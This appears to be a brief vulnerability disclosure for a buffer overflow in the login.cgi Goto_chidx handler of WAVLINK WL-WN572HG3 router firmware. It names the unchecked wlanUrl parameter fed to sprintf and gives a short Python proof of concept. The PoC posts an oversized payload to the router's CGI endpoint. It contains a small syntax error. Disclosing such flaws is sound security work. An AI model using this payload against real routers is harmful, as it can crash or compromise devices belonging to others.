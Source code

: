 # buff overflow

## WAVLINK_WL_WN572HG3

version: 20220801

## Description:

There is a buff overflow in login.cgi/Goto_chidx

## Source:

you may download it from : 

https://www.wavlink.com/en_us/firmware/details/1f4fea6a58.html##

 Analyse:

![](4.png)

get value from wlanUrl,then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'Goto_chidx', 'wlanUrl': + payload})
```
